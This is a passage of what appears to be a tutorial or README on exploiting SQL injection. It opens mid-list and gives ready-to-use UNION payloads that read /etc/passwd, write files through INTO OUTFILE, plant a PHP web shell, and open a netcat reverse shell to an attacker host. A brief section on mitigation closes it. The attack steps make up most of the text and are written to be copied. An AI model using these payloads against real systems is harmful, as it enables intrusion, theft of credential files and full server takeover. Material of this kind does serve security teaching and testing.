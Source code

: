 2. **File Read via SQL Injection**  
   - Use the `LOAD_FILE` function to read files accessible to the SQL user.  
   - **Example Command:**
     ```sql
     UNION SELECT 1, 2, 3, LOAD_FILE('/etc/passwd'), 5, 6, 7--
     ```
   - Displays contents of the `/etc/passwd` file.

3. **File Write via SQL Injection**  
   - Use `INTO OUTFILE` to write files, such as text files or scripts, to writable directories.  
   - **Example Command:**
     ```sql
     UNION SELECT 1, 2, 3, 'Test Content!', 5, 6, 7 INTO OUTFILE '/var/www/html/test.txt'--
     ```

4. **Remote Code Execution (RCE)**  
   - Inject PHP code into writable directories to create a web shell.  
   - **Example PHP Shell Command:**
     ```sql
     UNION SELECT 1, 2, 3, "<?php echo shell_exec($_GET['cmd']); ?>", 5, 6, 7 INTO OUTFILE '/var/www/html/shell.php'--
     ```
   - Access the shell via the browser:
     ```
     http://target.com/shell.php?cmd=whoami
     ```

5. **Escalation to Reverse Shell**  
   - Combine RCE with tools like `netcat` to gain interactive shell access.  
   - **Start a listener on the attacker machine:**
     ```bash
     nc -lvp 9999
     ```
   - **Inject Reverse Shell Command:**
     ```sql
     UNION SELECT 1, 2, 3, "<?php echo shell_exec('nc -e /bin/bash <attacker_ip> 9999'); ?>", 5, 6, 7 INTO OUTFILE '/var/www/html/reverse.php'--
     ```
   - **Trigger the reverse shell via browser:**
     ```
     http://target.com/reverse.php
     ```

## Security Implications

- SQL injection is one of the most critical web application vulnerabilities.
- Enables attackers to:
  - Access sensitive files.
  - Execute arbitrary system commands.
  - Compromise entire systems.

### Mitigation Strategies
- Always **validate and sanitize user inputs**.
- Use **parameterized queries** and **Object Relational Mapping (ORM)** practices.
- Limit database permissions to the minimum required for functionality.
